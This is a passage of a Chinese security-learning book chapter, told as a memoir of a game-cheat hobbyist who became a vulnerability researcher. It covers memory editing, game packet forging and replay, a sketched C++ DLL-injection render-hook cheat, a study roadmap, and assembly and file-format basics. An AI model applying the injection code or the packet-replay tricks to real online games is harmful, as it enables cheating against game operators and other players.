




# 第129章 游戏外挂爱好者到0day漏洞猎手（上）

> **难度等级：⭐⭐⭐⭐ 硬核菜**
>
> **预计阅读时间：180分钟**
>
> **本章看点：游戏外挂到漏洞挖掘的转型之路、CE改内存的原理、二进制逆向入门、Fuzzing实战、第一个CVE的诞生、堆溢出与UAF利用**
>
> ::: tip 说明
> 本章中提到的技术细节，后续对应章节会有更深入的讲解。文中已标注"（详见第X章）"的，你可以翻到对应章节学习具体操作方法。
>
> 本章所有人物、游戏名称、公司名称均已脱敏处理，基于真实事件改编。
> :::

---

## 📖 本章概述

::: tip 写在前面
这不是小说，这是真实发生过的故事。

为了保密，所有的人名、游戏名、公司名、具体时间都已经做了脱敏处理。但成长经历、技术细节、心路历程，都是真实的。

看完这一章，你会明白：
- 游戏外挂和漏洞挖掘，本质上是同一种能力的两种应用
- 从外挂作者到0day猎手，要走过多少弯路
- 二进制安全到底要学哪些东西
- 第一个CVE是怎么挖到的
- 漏洞利用（堆溢出、UAF、ROP）到底是怎么玩的
:::

---

## 🎯 学习目标

读完本章，你将了解：

- [x] 游戏外挂的核心技术原理（CE改内存、封包分析、按键精灵）
- [x] 从外挂作者到安全研究者的转型思路
- [x] 二进制安全的基础知识体系（汇编、逆向、调试）
- [x] 漏洞挖掘的核心方法论（Fuzzing、AFL、libFuzzer）
- [x] 第一个CVE的完整提交流程
- [x] 漏洞利用的基本套路（堆溢出、UAF、ROP链）

---

## 🏆 背景介绍：一个游戏外挂爱好者的自白

### 1.1 我是谁？

我叫小林，今年28岁，是一家安全公司的漏洞研究员。

说出来你可能不信，三年前，我还在做游戏外挂。

不是那种花钱买的外挂，是自己写的那种。

从高中开始，我就在搞游戏外挂。CE改内存、按键精灵脚本、封包分析、DLL注入... 这些东西我玩得贼溜。

那时候的我，对"安全"两个字一无所知。

我只知道：

> 把游戏的内存改一改，就能无限血、无限蓝、无限金币。
> 把游戏的封包抓一抓，就能看到别人的视野、自动打怪、自动捡装备。
> 把游戏的客户端注入一下，就能透视、自瞄、加速。

我以为我是个"黑客"，其实我连门都没入。

但回头看，那段时间搞外挂的经历，恰恰是我后来转做漏洞挖掘的最大本钱。

> 💡 **为什么这么说？**
> 因为游戏外挂和漏洞挖掘，本质上干的是同一件事——**逆向工程**。
> 都是把一个二进制程序拆开，看它怎么工作的，然后找到它的弱点。
> 区别只在于：外挂是改游戏客户端的行为，漏洞挖掘是找程序里的安全缺陷。
> 底层能力是完全相通的。

这一章，我就来讲讲，我是怎么从一个游戏外挂爱好者，一步步走到0day漏洞猎手的。

### 1.2 高中的外挂启蒙

事情要从高中说起。

那时候我上高二，学习一般，但是对计算机特别感兴趣。

不是那种"我想学编程"的兴趣，是那种"我想在游戏里虐别人"的兴趣。

那时候班里流行一款网游（就叫它《XX大陆》吧，已经脱敏），全班男生都在玩。

我也玩，但是技术不行，老是被人虐。

有一天，我看到隔壁班一个同学，他在游戏里开挂——自动打怪、自动捡装备、还能透视看到怪物的位置。

我惊为天人。

我问他："这挂哪下的？"

他说："自己写的。"

我当时就愣住了。

> 自己写的？这玩意还能自己写？

从那天起，我打开了新世界的大门。

我开始疯狂地百度"游戏外挂怎么写"、"CE怎么用"、"按键精灵教程"...

那时候的资源不像现在这么多，很多教程都是几年前的老帖，但是我也看得很认真。

**我搞外挂用的第一个工具：Cheat Engine（CE）**

```
🛠️ Cheat Engine 是什么？

CE 是一个开源的内存扫描和调试工具，最初就是为游戏作弊设计的。
它的核心功能是：扫描进程的内存，找到存储游戏数据的地址，然后修改它。

举个例子：
- 游戏里你的血量是 100
- 你用 CE 扫描进程内存，找到所有值为 100 的地址
- 然后你在游戏里被打了一下，血量变成 80
- 你再用 CE 扫描所有值为 80 的地址（在第一次扫描结果中过滤）
- 几次过滤之后，就能定位到存储血量的那个内存地址
- 然后你把这个地址的值改成 9999
- 哈哈，你无敌了！

听起来很简单对吧？但这就是最基础的"内存修改外挂"。
```

我用CE改的第一个游戏数据，是单机游戏的金币。

那时候玩一款单机RPG（就叫《XX传说》吧），打怪掉金币太慢，我就用CE把金币改成了9999999。

那一刻的快感，我至今记得。

> 原来程序运行时的数据，是可以被改的！
> 原来游戏里的"金币"就是内存里的一个数字！
> 原来我也能当"黑客"！

从那以后，我沉迷外挂无法自拔。

### 1.3 外挂技术升级：从CE到封包分析

CE改内存是最基础的外挂技术，但是它有几个问题：

```
⚠️ CE改内存的局限性：

1. 服务端校验
   - 很多游戏，金币、血量这些数据是存在服务端的
   - 你改了客户端的内存，服务端一校验就发现不对
   - 直接踢你下线，甚至封号

2. 内存保护
   - 有些游戏有反作弊，会检测内存是否被修改
   - 一旦检测到 CE 进程或者内存修改痕迹，直接报错退出

3. 数据加密
   - 有些游戏把内存里的数据加密存储
   - 你扫到的 100 不是真的 100，是加密后的值
   - 你改了也没用

4. 多端校验
   - 客户端和服务端会定期同步数据
   - 你改了客户端，一同步就被覆盖了
```

所以我很快就不满足于CE改内存了，我开始研究更高级的外挂技术——**封包分析**。

什么是封包？

```
📡 封包是什么？

网游是客户端/服务端架构的（C/S架构）。
客户端（你电脑上的游戏）和服务端（游戏公司的服务器）之间，需要不停地通信。
通信的方式就是通过网络发送数据包，这些数据包就叫"封包"。

比如：
- 你点击移动 → 客户端发一个封包给服务端："我要移动到坐标(x,y)"
- 你打怪 → 客户端发一个封包："我用XX技能攻击怪物YY"
- 服务端返回 → "怪物受到ZZ点伤害，怪物还剩WW点血"

封包里就是这些指令和数据。

如果你能抓到这些封包，看懂封包里的内容，甚至伪造封包发送给服务端...
那你就能做很多事情：
- 自动打怪（自动发送打怪封包）
- 复制物品（利用封包漏洞）
- 加速（修改封包里的时间戳）
- 透视（解析服务端发来的视野数据）
```

我用的第一个抓包工具是 WPE Pro（Winsock Packet Editor）。

```
🛠️ WPE Pro 是什么？

WPE Pro 是一个老牌的网络封包抓取和修改工具，专门用来做游戏外挂的。
它的功能：
1. 抓取指定进程发送和接收的所有网络封包
2. 分析封包的内容（十六进制显示）
3. 修改封包内容再发送（封包伪造）
4. 设置过滤器，自动修改特定封包

现在 WPE Pro 已经很老了，但是思路是一样的。
现代的替代工具有：Wireshark（更通用）、mitmproxy（更强大）等。
```

用 WPE Pro 抓游戏封包，是件很有意思的事情。

我记得那时候我抓了《XX大陆》的登录封包，分析了好几天，终于搞清楚了封包的结构：

```
📡 《XX大陆》登录封包结构（脱敏后）：

偏移   长度   含义
0x00   2      包头标识（0xAA 0x55）
0x02   2      包长（整个包的字节数）
0x04   2      包类型（0x01 = 登录请求）
0x06   4      序列号（递增，防重放）
0x0A   16     用户名（不足补0）
0x1A   16     密码MD5（16字节MD5）
0x2A   4      客户端版本号
0x2E   2      校验和（前所有字节求和取低16位）
0x30   1      包尾标识（0x55）

总长度：0x31 = 49字节
```

搞清楚封包结构之后，我就能做很多事情了：

```
🎯 我用封包分析做的事情：

1. 写了一个自动登录脚本
   - 用 Python 的 socket 库直接发封包
   - 不用打开游戏客户端就能登录
   - 多开刷金币必备

2. 写了一个自动打怪外挂
   - 解析服务端发来的视野数据
   - 自动找到最近的怪物
   - 自动发送攻击封包
   - 自动捡装备

3. 发现了一个复制物品的漏洞（封包重放）
   - 把"丢弃物品"的封包抓下来
   - 连续发送多次
   - 服务端处理逻辑有问题，物品被复制了
   - 后来这个漏洞被官方修复了

4. 加速外挂
   - 修改封包里的时间戳
   - 让服务端以为客户端网络延迟很高
   - 服务端给了更长的处理窗口
   - 利用这个窗口可以多发送几个动作
   - 实现了"加速"效果
```

那时候的我，觉得自己牛逼坏了。

> 我能看懂游戏客户端和服务端怎么通信的！
> 我能伪造封包！
> 我能找漏洞！
> 我不就是黑客吗？

后来我才知道，我那时候干的事情，在安全领域有个专门的名字——**协议逆向工程**。

这玩意在安全研究领域是非常重要的能力。

很多物联网设备、工控协议、私有协议的安全研究，干的就是这个活儿。

> 💡 **协议逆向工程是什么？**
> 就是通过抓包、分析二进制等方式，搞清楚一个私有协议的格式和语义。
> 这在IoT安全、工控安全、恶意协议分析等领域都用得上。
> 比如分析一个恶意软件的C2协议，分析一个IoT设备的私有协议...
> 我搞外挂的时候学的这套技能，后来在漏洞挖掘里直接就用上了。

### 1.4 按键精灵与DLL注入

除了CE改内存和封包分析，我还搞过按键精灵和DLL注入。

**按键精灵**是最简单的"外挂"——就是模拟鼠标和键盘操作。

```
🤖 按键精灵脚本示例（自动打怪）：

// 找怪
MoveTo 500, 300  // 鼠标移动到屏幕中央
LeftClick 1      // 左键点击（选中怪物）
Delay 500        // 等0.5秒

// 释放技能
KeyPress "F1", 1 // 按F1键（技能1）
Delay 1000       // 等技能CD
KeyPress "F2", 1 // 按F2键（技能2）
Delay 1000

// 捡装备
KeyPress "Space", 1 // 按空格键（捡取）
Delay 500

// 循环
Goto 开始
```

按键精灵的好处是简单，不用懂编程。坏处是只能做最基础的事情，遇到有反外挂的游戏就废了。

**DLL注入**就更高级了。

```
💉 DLL注入是什么？

DLL注入是一种技术，把一个自己写的DLL（动态链接库）强行加载到目标进程的地址空间里。
一旦注入成功，你的DLL就和目标进程"融为一体"了，可以：
- 直接读取和修改目标进程的内存（不用CE了）
- Hook目标进程的函数（拦截、修改函数的执行）
- 调用目标进程的内部函数（直接用游戏的内部功能）

外挂里 DLL注入 + 函数Hook 是标配。
比如自瞄外挂，就是Hook了游戏的渲染函数，在渲染的时候画一条线指到敌人头上。
```

我写过的一个DLL注入外挂（已脱敏）：

```cpp
// my_hack.cpp - 注入到游戏进程的DLL
#include <Windows.h>

// Hook函数：拦截游戏的渲染函数
typedef void(__fastcall* RenderFunc)(void* thisptr, int arg1);
RenderFunc original_render = nullptr;

void __fastcall hooked_render(void* thisptr, int arg1) {
    // 先调用原函数
    original_render(thisptr, arg1);
    
    // 然后画我们的透视
    DrawESP();  // 画方框、画线
}

void Init() {
    // 1. 找到游戏的渲染函数地址
    DWORD render_addr = (DWORD)GetModuleHandle("game.dll") + 0x1A2B3C;
    
    // 2. Hook这个函数
    original_render = (RenderFunc)render_addr;
    DetourFunction((PBYTE*)&original_render, (PBYTE)hooked_render);
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID lpReserved) {
    if (reason == DLL_PROCESS_ATTACH) {
        Init();
    }
    return TRUE;
}
```

这套东西，我当时玩得贼溜。

但是我从来没想过，这玩意儿和安全有什么关系。

直到有一天...

---

## 💀 反作弊升级：外挂之死

### 2.1 游戏公司的反击

高二下学期，我搞外挂搞得不亦乐乎的时候，《XX大陆》官方突然搞了一次大更新。

更新公告里写着："本次更新引入了全新的反作弊系统，将严厉打击外挂行为。"

我没当回事。

我心想：反作弊嘛，以前也有，我绕过去就行了。

结果这次不一样。

```
😱 这次反作弊升级的内容：

1. 内核级反作弊
   - 以前的反作弊是用户态的，好绕
   - 这次直接装了个内核驱动（ring 0）
   - 在内核层监控游戏进程的内存访问
   - CE 一扫就被检测到

2. 封包加密升级
   - 以前封包是明文+简单校验
   - 现在改成动态加密了
   - 每次登录的密钥都不一样
   - 我之前的封包分析全废了

3. 行为检测
   - 不光检测你有没有开挂
   - 还分析你的操作行为
   - 自动打怪的"鼠标轨迹"是机械的，和真人不一样
   - 一旦检测到机械操作，直接标记

4. 文件校验
   - 游戏启动时校验所有文件
   - DLL注入会在游戏进程里留下痕迹
   - 一旦发现未知模块，直接踢下线

5. 硬件封禁
   - 以前封号，换个号还能玩
   - 现在封硬件（MAC地址、硬盘序列号、主板序列号）
   - 换号也没用，得换电脑
```

我那时候还想着绕过去，搞了好几天，最后还是没绕过。

CE一开就被踢。

封包抓到了，但是加密解不开。

DLL注入，刚注入就被检测到，游戏直接退出。

按键精灵，行为检测一抓一个准。

我搞了一周，全军覆没。

### 2.2 第一次被封号

更惨的事情还在后面。

有一天我刚登录游戏，就弹出一个对话框：

> "您的账号因使用第三方软件，已被永久封禁。"

我愣住了。

我那个号，玩了两年，氪金氪了好几千，角色等级全服前100...

全没了。

```
💀 我的封号清单（脱敏后）：

【第一次封号】高二
- 账号：lin***01
- 原因：使用CE修改内存
- 处罚：永久封禁
- 损失：2年心血 + 3000多块氪金

【第二次封号】高三
- 账号：lin***02
- 原因：使用DLL注入外挂
- 处罚：永久封禁 + 硬件封禁
- 损失：新号 + 一台电脑（被封了硬件，换号也登不上）

【第三次封号】大一
- 账号：lin***03
- 原因：使用封包重放外挂
- 处罚：永久封禁 + 硬件封禁 + IP封禁
- 损失：又一次...
```

封号三次之后，我终于死心了。

不搞了，搞不过官方。

那时候我挺沮丧的。

> 我搞外挂搞了这么久，技术也不差啊。
> 怎么官方一升级反作弊，我就没辙了？
> 难道我这点技术，就只能搞搞外挂，干不了别的？

但是当时我也没想那么多，上了大学之后，就把外挂这事儿放下了，开始"正经"学编程。

### 2.3 大学的迷茫

大学我学的是软件工程。

按理说，软件工程毕业的，应该去做开发才对。

但是我学得一般，开发岗位面试屡屡碰壁。

```
📅 大学的状态：

【大一】
- 还在搞外挂，又封了一个号
- 文化课学得一般，C++勉强及格
- 开始接触网络安全，但是没系统学

【大二】
- 不搞外挂了，被封怕了
- 学了点Web开发，HTML/CSS/JS
- 学了点Python，能写点小脚本
- 但是都学得不深

【大三】
- 开始焦虑，毕业干啥？
- 找开发岗实习，被刷
- 找测试岗实习，被刷
- 找运维岗实习，被刷
- 各种被刷

【大四】
- 还是没找到方向
- 看到同学都签了offer，我更焦虑了
- 心想：我大学四年都学了啥？
```

那时候我对自己的评价是：

> 啥都会一点，啥都不精。
> 搞外挂有点基础，但是没前途。
> 搞开发水平不够，没人要。
> 搞运维又不感兴趣。
> 我到底能干啥？

大四上学期，我差点就去送外卖了。

### 2.4 命运的转折：前辈指点

就在我最迷茫的时候，命运的转折来了。

我加了一个技术交流群，群里有个大佬，叫"老周"。

老周是个安全研究员，在某个安全公司搞漏洞挖掘。

有一次群里聊天，我说起了自己的经历：

> 我以前搞过游戏外挂，CE改内存、封包分析、DLL注入都会一点。
> 但是找不到工作，开发岗不要我，安全岗又没经验。

老周私聊了我。

> 老周：你搞过外挂？具体说说，都会啥？
>
> 我：CE改内存、WPE抓封包、写过DLL注入外挂、用过OD（OllyDbg）和x64dbg调试游戏、IDA反汇编也用过...
>
> 老周：你这基础不错啊！为啥不去搞漏洞挖掘？
>
> 我：漏洞挖掘？我没挖过漏洞啊，没经验。
>
> 老周：你搞外挂干的那些事儿，跟漏洞挖掘是同一套技能。
>       你会逆向，会调试，会分析二进制，这些就是漏洞挖掘的基础。
>       外挂和漏洞挖掘，差别只在于"目标"不同，能力是相通的。
>
> 我：真的假的？我以为漏洞挖掘是大神才能干的...
>
> 老周：你是不是以为漏洞挖掘很高大上？其实就是把一个程序拆开，看它怎么工作的，然后找它哪里有问题。
>       你搞外挂的时候，把游戏客户端拆开看它怎么工作的，然后改它——这不是一回事吗？
>
> 我：好像是... 但是漏洞挖掘具体要学啥？
>
> 老周：你的逆向基础不错，但是漏洞挖掘还需要学：
>       1. 漏洞类型（栈溢出、堆溢出、UAF、格式化字符串...）
>       2. 漏洞挖掘方法（Fuzzing、代码审计、符号执行...）
>       3. 漏洞利用（怎么把一个bug变成可以执行的代码）
>       4. 漏洞提交（CVE、厂商奖励）
>
> 我：听起来挺多的...
>
> 老周：是不算少，但是你已经有基础了，比从零开始的人强多了。
>       最关键的是，你搞外挂的时候，已经具备了"逆向思维"——把一个黑盒拆开看里面是怎么工作的。
>       这是漏洞挖掘最核心的能力。
>
> 我：那我该怎么入门？
>
> 老周：这样吧，我给你列个学习路线，你照着学。
>       有问题随时问我。

那天晚上，我激动得没睡着。

原来我搞外挂那几年，并不是白搞的！

那些逆向、调试、汇编的技能，竟然能直接用在漏洞挖掘上！

我感觉自己找到了方向。

> 💡 **为什么游戏外挂作者适合转漏洞挖掘？**
>
> 1. 都需要逆向工程能力
>    - 外挂：逆向游戏客户端，找内存地址、找函数
>    - 漏洞挖掘：逆向程序，找漏洞点、找可利用的代码
>
> 2. 都需要调试能力
>    - 外挂：用调试器分析游戏运行时的状态
>    - 漏洞挖掘：用调试器分析崩溃、跟踪漏洞触发
>
> 3. 都需要汇编基础
>    - 外挂：要看懂反汇编的代码，找Hook点
>    - 漏洞挖掘：要看懂反汇编的代码，找漏洞
>
> 4. 都需要"黑盒分析"思维
>    - 外挂：游戏是个黑盒，要拆开看
>    - 漏洞挖掘：目标程序是个黑盒，要拆开看
>
> 5. 都需要"漏洞利用"思维
>    - 外挂：找到游戏的弱点（比如内存校验不严），利用它
>    - 漏洞挖掘：找到程序的漏洞，利用它
>
> 这套能力是相通的。所以游戏外挂作者转做漏洞挖掘，是有先天优势的。

---

## 📚 重启学习：从二进制基础学起

### 3.1 老周给我列的学习路线

老周给我列了一个学习路线，我至今还保存着：

```
📚 二进制漏洞挖掘学习路线（老周版）：

【第一阶段：基础】
1. 汇编语言（x86 + x64）
   - 寄存器、指令集、寻址方式
   - 函数调用约定（cdecl、stdcall、fastcall、x64 calling convention）
   - 栈帧结构
   - 常见代码结构的汇编形态（if/for/while/switch）

2. 可执行文件格式
   - Windows: PE格式（DOS头、NT头、节表、导入表、导出表）
   - Linux: ELF格式（ELF头、程序头表、节头表、符号表）
   - 各种结构的含义和作用

3. C/C++语言深入
   - 指针、内存布局
   - 结构体、联合体、对齐
   - 栈、堆、静态区
   - 编译器优化对代码的影响

【第二阶段：工具】
4. 反汇编工具
   - IDA Pro（静态分析神器）
   - Ghidra（NSA开源的，免费好用）
   - Radare2（命令行的，极客范）

5. 调试器
   - x64dbg（Windows用户态调试器，免费）
   - WinDbg（内核调试、崩溃分析）
   - GDB（Linux调试器）
   - OllyDbg（老牌32位调试器，已过时但经典）

6. 辅助工具
   - Process Monitor（监控文件/注册表/进程/网络操作）
   - Process Explorer（进程树查看）
   - Wireshark（抓包分析）
   - DIE / PEiD（查壳工具）

【第三阶段：漏洞类型】
7. 内存破坏类漏洞
   - 栈溢出（Stack Overflow / Buffer Overflow）
   - 堆溢出（Heap Overflow）
   - 释放后使用（UAF, Use-After-Free）
   - 双重释放（Double Free）
   - 整数溢出（Integer Overflow）
   - 数组越界（Out-of-Bounds）

8. 逻辑类漏洞
   - 格式化字符串漏洞（Format String）
   - 竞争条件（Race Condition）
   - 类型混淆（Type Confusion）

9. 现代漏洞缓解机制
   - 栈保护（Canary / Stack Cookie）
   - 数据执行保护（DEP / NX）
   - 地址空间布局随机化（ASLR）
   - 控制流完整性（CFG / CET）
   - 怎么绕过这些机制

【第四阶段：漏洞挖掘】
10. Fuzzing（模糊测试）
    - AFL（American Fuzzy Lop）
    - libFuzzer
    - Honggfuzz
    - WinAFL（Windows版AFL）

11. 代码审计
    - 静态分析工具（Coverity、CodeQL）
    - 人工审计方法

12. 动态分析
    - AddressSanitizer (ASAN)
    - Valgrind
    - Dr.Memory

【第五阶段：漏洞利用】
13. 利用基础
    - Shellcode编写
    - ROP（Return-Oriented Programming）
    - ret2libc / ret2plt

14. 利用进阶
    - 堆利用（ptmalloc、tcache、fastbin attack）
    - UAF利用
    - 信息泄露
    - 绕过缓解机制

【第六阶段：实战】
15. 实战练习
    - CTF比赛（Pwn方向）
    - 漏洞复现（CVE复现）
    - 开源软件漏洞挖掘
    - 提交CVE
```

我看完这个学习路线，倒吸一口凉气。

> 这... 要学的东西也太多了吧？
> 但是转念一想，我已经有逆向基础了，第一、第二阶段我大部分都会。
> 真正要从零开始学的，是第三阶段开始的漏洞相关内容。

那就开干！

### 3.2 复习汇编：x86与x64

我搞外挂的时候学过汇编，但是学得不系统，很多概念是模糊的。

老周让我重新系统学一遍。

```
📚 我重新学的汇编知识清单：

【x86汇编基础】
1. 寄存器
   - 通用寄存器：EAX, EBX, ECX, EDX, ESI, EDI, EBP, ESP
   - 标志寄存器：EFLAGS（ZF, CF, SF, OF...）
   - 指令指针：EIP
   - 段寄存器：CS, DS, ES, SS, FS, GS

2. 常用指令
   - 数据传送：MOV, PUSH, POP, XCHG, LEA
   - 算术运算：ADD, SUB, MUL, DIV, INC, DEC
   - 逻辑运算：AND, OR, XOR, NOT, SHL, SHR
   - 比较跳转：CMP, TEST, JMP, JZ, JNZ, JG, JL...
   - 函数调用：CALL, RET
   - 栈操作：PUSH, POP, PUSHAD, POPAD

3. 寻址方式
   - 立即寻址：MOV EAX, 1234h
   - 寄存器寻址：MOV EAX, EBX
   - 直接寻址：MOV EAX, [1234h]
   - 寄存器间接寻址：MOV EAX, [EBX]
   - 寄存器相对寻址：MOV EAX, [EBX+4]
   - 基址变址寻址：MOV EAX, [EBX+ESI]
   - 相对基址变址寻址：MOV EAX, [EBX+ESI+4]

【x64汇编差异】
1. 寄存器扩展
   - 通用寄存器从32位扩展到64位（前缀R）：RAX, RBX, RCX, RDX...
   - 新增8个通用寄存器：R8-R15
   - 指令指针：RIP

2. 调用约定变化（重要！）
   - x86下有很多调用约定（cdecl, stdcall, fastcall...）
   - x64下统一了：
     * Windows x64: RCX, RDX, R8, R9 传前4个参数，多余的压栈
     * Linux x64: RDI, RSI, RDX, RCX, R8, R9 传前6个参数
   - 这对逆向分析很重要，看到调用约定就知道参数在哪

3. RIP相对寻址
   - x64新增了RIP相对寻址
   - LEA RAX, [RIP+0x1234]
   - 这在位置无关代码（PIC）里很常见

【函数栈帧】
- 函数调用时，调用者和被调用者的栈帧结构
- EBP/RBP作为帧指针
- 局部变量在栈上的布局
- 函数返回地址在栈上的位置（漏洞利用的关键！）
```

**一个简单的函数调用，汇编层面是这样：**

```c
// C代码
int add(int a, int b) {
    return a + b;
}

int main() {
    int result = add(3, 4);
    return 0;
}
```

```asm
; x86汇编（cdecl调用约定）
_add proc
    push   ebp                ; 保存调用者的ebp
    mov    ebp, esp           ; 设置新的ebp
    sub    esp, 0C0h          ; 分配局部变量空间
    mov    eax, [ebp+8]       ; 取参数a（ebp+8是第一个参数）
    add    eax, [ebp+0Ch]     ; 加上参数b（ebp+12是第二个参数）
    mov    esp, ebp           ; 释放局部变量空间
    pop    ebp                ; 恢复调用者的ebp
    ret                       ; 返回（返回值在eax里）
_add endp

_main proc
    push   4                  ; 参数b压栈（从右往左）
    push   3                  ; 参数a压栈
    call   _add               ; 调用add函数
    add    esp, 8             ; 清理参数（cdecl由调用者清理）
    xor    eax, eax           ; 返回0
    ret
_main endp
```

```asm
; x64汇编（Windows x64调用约定）
_add proc
    mov    eax, ecx           ; 第一个参数在ecx
    add    eax, edx           ; 第二个参数在edx
    ret                       ; 返回（返回值在eax里）
_add endp

_main proc
    sub    rsp, 28h           ; 分配shadow space（x64必须）
    mov    ecx, 3             ; 第一个参数放ecx
    mov    edx, 4             ; 第二个参数放edx
    call   add                ; 调用
    xor    eax, eax           ; 返回0
    add    rsp, 28h           ; 释放shadow space
    ret
_main endp
```

> 💡 **为什么要学汇编？**
> 漏洞挖掘和利用，最后都要在汇编层面操作。
> 比如栈溢出，你溢出的是栈上的"返回地址"，要理解这个就得理解栈帧结构。
> 比如ROP链，构造的时候用的全是汇编指令片段（gadget）。
> 不懂汇编，根本没法做漏洞利用。

### 3.3 PE与ELF文件格式

学了汇编，接下来要学可执行文件格式。

Windows上是PE（Portable Executable），Linux上是ELF（Executable and Linkable Format）。

```
📦 PE文件结构（Windows）：

+----------------------+
| DOS头 (IMAGE_DOS_HEADER)      | 64字节，最开头的"MZ"
+----------------------+
| DOS存根 (DOS Stub)            | "This program cannot be run in DOS mode"
+----------------------+
| NT头 (IMAGE_NT_HEADERS)       |
|   - 签名 "PE\0\0"             |
|   - 文件头 (IMAGE_FILE_HEADER)|
|   - 可选头 (IMAGE_OPTIONAL_HEADER) |
+----------------------+
| 节表 (Section Table)          | 描述各个节
+----------------------+
| .text 节                      | 代码段
+----------------------+
| .data 节                      | 数据段
+----------------------+
| .rdata 节                     | 只读数据
+----------------------+
| .bss 节                       | 未初始化数据
+----------------------+
| .idata 节                     | 导入表
+----------------------+
| .rsrc 节                      | 资源
+----------------------+
| ...其他节                     |
+----------------------+
```

```
📦 ELF文件结构（Linux）：

+----------------------+
| ELF头 (ELF Header)           | 64字节，最开头的"\x7fELF"
+----------------------+
| 程序头表 (Program Header Table) | 描述段（用于加载）
